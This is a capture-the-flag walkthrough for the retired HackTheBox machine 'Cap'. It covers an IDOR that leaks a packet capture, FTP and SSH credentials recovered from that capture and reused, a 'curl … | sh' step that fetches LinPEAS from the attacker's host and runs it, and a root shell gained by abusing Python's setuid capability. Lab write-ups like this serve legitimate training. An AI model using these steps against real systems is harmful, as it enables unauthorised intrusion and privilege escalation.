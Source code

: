 # hHackTheBox Retired Machine - Cap 

## Enumeration
```
nmap -sV -sC -Pn <ip addr>
```

Result:
- 21-FTP (vsftpd 3.0.3)
- 22-SSH (OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0))
- 80-HTTP (gunicorn)


## Manual Web Crawling
- Possible IDOR on Security Snapshot page
	- Possible IDOR path: /data/[number].
	- Possible numbers are: 0,1,2,3,4,5,6.
  - Other numbers will redirect the user back to dashboard screen
  - Any number that has packet analysis content will be downloaded and inspected.
### Packet Analysis
- Packet Analysis on number 1-3 doesn't really contain any useful information
- Packet Analysis on number 0, contains:
	- Info on a user to access FTP (USER: nathan)
	- Info on password of a user to access FTP (Password: Buck3tH4TF0RM3!)


## Accessing FTP
Use the following credential
```
username: nathan
password: Buck3tH4TF0RM3!
```

## Accessing SSH
We can use the same credentials and the flag is on that user home directory called `user.txt`

### Privilege Escalation from SSH
! We need to find a directory that can be exploited to gain higher privilege !
* * *
1. Setting up LinPEAS in local directory
```
curl -L -O https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```
2. Host the local directory that has the LinPEAS
```
sudo python3 -m http.server 80
```
3. From the victim machine, fetch the LinPEAS file without storing it locally
```
curl 10.10.16.41/linpeas.sh | sh
```
4. Let it run
![Running LinPeas](./images/Cap-LinPeas.png)
5. Found the supposed vulnerable files and the capability that can be exploited!
![LinPeas Result.png](./images/Cap-LinPeas2.png)

## Exploiting Python 
```
/usr/bin/python3.8
>>> import os
>>> os.setuid(0)
>>> os.system("/bin/bash")
```
Result:
![Exploit Python Capabilities](./images/Cap-Python.png)

Try to get into the parent directory, outside of the current working directory which is `/home/nathan/`

Root flag will be available at: `/root/root.txt`
